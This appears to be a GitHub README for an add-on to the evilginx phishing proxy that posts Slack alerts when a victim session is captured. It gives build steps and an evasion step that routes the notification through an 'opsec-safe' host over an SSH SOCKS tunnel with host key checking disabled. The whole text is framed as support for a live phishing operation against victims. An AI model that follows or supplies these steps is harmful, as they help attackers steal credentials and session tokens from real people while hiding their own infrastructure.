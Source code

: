 # evilginx_webhook
Adds a Slack webhook to evilginx

Instructions:

1) Swap this file in to your evilginx's core/ directory, replacing the old http_proxy.go
2) Find line 447 and change the fake Slack webhook url to match your valid webhook url
3) Go up to the evilginx/ directory
4) rm bin/evilginx; make
5) Before running evilginx you'll want to proxy the curl request to Slack through a seperate opsec-safe system, so run "nohup ssh -oStrictHostKeyChecking=no -N -D 43004 user@opsec_safe.com &"
6) You may want to sanity check that just a plain "ssh user@opsec_safe.com" doesn't ask to approve a new hostkey, etc
7) Run evilginx with the -debug option
8) Enjoy not having to stare at Evilginx output while you wait for a victim session!
